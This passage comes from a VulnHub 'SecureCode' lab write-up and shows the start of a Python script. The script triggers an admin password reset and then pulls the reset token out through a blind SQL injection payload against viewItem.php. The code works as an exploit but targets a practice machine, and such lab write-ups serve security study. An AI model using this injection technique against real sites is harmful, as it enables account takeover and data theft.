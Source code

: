 ![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-20-VulnHub-SecureCode/2021-11-20-VulnHub-SecureCode%2012:23:01.png)

sqli_auto.py

```py
#!/usr/bin/python3
# Auto SQLINJection - Extract token change pass - change pass - login and get the flag 01
# Author: 0x4rt3mis
# Secure Code - VulnHub

import argparse
import requests
import sys
import os
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Let's send the admin token
def sendToken(rhost,user_id):
    if user_id == "1":
        print("[+] Just generate the admin token ! [+]")
        url = "http://%s:80/login/resetPassword.php" %rhost
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"username": "admin"}
        r.post(url, headers=headers, data=data, proxies=proxies)
        print("[+] Done ! [+]")
    else:
        print("[+] I don't know the username from the user_id = %s !!!!! Change it in the code, if you know [+]" %user_id)
        sys.exit()

# Function to auto Blind-SQLInjection
def valueExtract(rhost,user_id):
    url_ori = "http://%s" %rhost + "/item/viewItem.php?id=1+"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    token_password = []
    list_number = list(range(1, 151))
    limit = 1
    iterator = 1
    print("[+] The token for username with the user id %s is... [+]" %user_id)
    while(iterator < len(list_number)):
        for c in [list_number[iterator]]:
            payload = "and+ascii(substr((select+token+from+user+where+id+=+%s),%s,1))+=+%s+--+-" %(user_id,limit,c)
            url = url_ori + payload
            res = r.get(url, proxies=proxies, headers=headers, allow_redirects=False)
            if res.status_code == 404:
                c = chr(c)
                password.append(c)
                token_password.append(c)
                limit += 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                password = []
                url = url_ori
    print()
```